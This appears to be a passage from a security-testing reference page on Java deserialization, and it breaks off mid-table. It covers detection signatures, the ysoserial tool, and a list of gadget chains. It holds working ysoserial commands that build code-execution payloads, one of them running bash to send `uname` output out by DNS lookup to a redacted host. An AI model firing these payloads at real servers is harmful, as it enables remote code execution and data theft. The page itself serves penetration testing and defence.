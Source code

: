 # Java Deserialization

> Java serialization is the process of converting a Java object’s state into a byte stream, which can be stored or transmitted and later reconstructed (deserialized) back into the original object. Serialization in Java is primarily done using the `Serializable` interface, which marks a class as serializable, allowing it to be saved to files, sent over a network, or transferred between JVMs.


## Summary

* [Detection](#detection)
* [Tools](#tools)
  * [Ysoserial](#ysoserial)
  * [Burp extensions using ysoserial](#burp-extensionsl)
  * [Alternative Tooling](#alternative-tooling)
* [References](#references)


## Detection

- `"AC ED 00 05"` in Hex
  * `AC ED`: STREAM_MAGIC. Specifies that this is a serialization protocol.
  * `00 05`: STREAM_VERSION. The serialization version.
- `"rO0"` in Base64
- Content-type = "application/x-java-serialized-object"
- `"H4sIAAAAAAAAAJ"` in gzip(base64)


## Tools

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

**List of payloads included in ysoserial:**

| Payload             | Authors                                | Dependencies |
| ------------------- | -------------------------------------- | --- |                                                                                                                                                                      
| AspectJWeaver       | @Jang                                  | aspectjweaver:1.9.2, commons-collections:3.2.2 |
| BeanShell1          | @pwntester, @cschneider4711            | bsh:2.0b5 |
| C3P0                | @mbechler                              | c3p0:0.9.5.2, mchange-commons-java:0.2.11 |
| Click1              | @artsploit                             | click-nodeps:2.3.0, javax.servlet-api:3.1.0 |
| Clojure             | @JackOfMostTrades                      | clojure:1.8.0 |
| CommonsBeanutils1   | @frohoff                               | commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2 |
| CommonsCollections1 | @frohoff                               | commons-collections:3.1 |
| CommonsCollections2 | @frohoff                               | commons-collections4:4.0 |
| CommonsCollections3 | @frohoff                               | commons-collections:3.1 | 
| CommonsCollections4 | @frohoff                               | commons-collections4:4.0 |
| CommonsCollections5 | @matthias_kaiser, @jasinner            | commons-collections:3.1  |